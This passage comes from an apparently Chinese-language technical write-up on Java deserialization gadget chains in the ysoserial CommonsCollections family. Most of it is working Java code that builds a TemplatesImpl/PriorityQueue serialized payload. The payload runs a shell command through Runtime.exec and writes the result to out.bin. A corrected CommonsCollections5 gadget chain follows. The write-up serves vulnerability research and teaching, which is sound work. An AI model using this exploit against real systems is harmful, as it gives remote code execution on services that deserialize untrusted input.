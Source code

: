 ```java
        placeholder.makeClassInitializer().insertBefore("java.lang.Runtime.getRuntime().exec(\"touch /dev/shm/rmb122_test1\");");
        placeholder.setName("demo.rmb122." + System.currentTimeMillis());

        byte[] bytecode = placeholder.toBytecode();

        Object templates = Class.forName(TemplatesImpl).getConstructor(new Class[]{}).newInstance();
        Field fieldByteCodes = templates.getClass().getDeclaredField("_bytecodes");
        fieldByteCodes.setAccessible(true);
        fieldByteCodes.set(templates, new byte[][]{bytecode});

        Field fieldName = templates.getClass().getDeclaredField("_name");
        fieldName.setAccessible(true);
        fieldName.set(templates, "rmb122");

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName(TrAXFilter)),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates}),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        TransformingComparator comparator = new TransformingComparator(chainedTransformer);
        PriorityQueue queue = new PriorityQueue(2);
        queue.add(1);
        queue.add(1);

        Field field = PriorityQueue.class.getDeclaredField("queue");
        field.setAccessible(true);
        Object[] innerArr = (Object[]) field.get(queue);
        innerArr[0] = templates;
        innerArr[1] = templates;

        field = PriorityQueue.class.getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue, comparator);

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(queue);
        oos.close();
    }
}
```

## CommonsCollections5

这个不是换汤不换药了, 用了一个新的利用链去触发 InvokerTransformer, 不过 ysoserial 上注释里面的调用链是错误的, 估计是忘记改了. 正确的如下:

```
Gadget chain:
    ObjectInputStream.readObject()
        BadAttributeValueExpException.readObject()
            TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
```